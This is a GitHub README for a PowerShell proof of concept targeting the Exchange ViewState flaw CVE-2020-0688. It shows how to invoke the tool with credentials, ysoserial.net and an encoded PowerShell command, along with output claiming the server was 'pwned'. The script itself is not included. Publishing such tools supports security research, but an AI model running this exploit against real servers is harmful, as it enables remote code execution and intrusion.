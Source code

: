 # PSForgot2kEyXCHANGE

PoC for Forgot2kEyXCHANGE (CVE-2020-0688) written in PowerShell

## Usage

This PoC requires a valid Username and Password.

This PoC uses [ysoserial.net](https://github.com/pwntester/ysoserial.net) to create the new ViewState which contains the command you specified on the -Command param.
If you don't already have this installed on your system download it [here](https://github.com/pwntester/ysoserial.net).

```PowerShell
PS> . .\PSForgot2kEyXCHANGE.ps1
PS> Invoke-Forgot2kEyXCHANG -Server 'https://webmail.domain.tld' -User 'Steve.McGreeve@domain.tld' -Password 'Summer2020!' -Command 'cmd /c powershell.exe -en dwByAGkAdABlAC0AaABvAHMAdAAgACcASQAnAG0AIABhACAAcwB0AGkAbgBrAHkAIABzAGsAaQBkACAAdwBoAG8AIAByAHUAbgBzACAAcgBhAG4AZABvAG0AIABjAG8AZABlACAAOgApACcA=' -YsoserialPath 'C:\tools\ysoserial.net\ysoserial.exe'
[+] Login successfully!
[+] Generated new ViewState successfully!
[+] Got a 500 response, successfully pwned https://webmail.domain.tld !
```

# Contributing

Feel free to open issues, contribute and submit your Pull Requests. You can also ping me on Twitter (@justin-p)
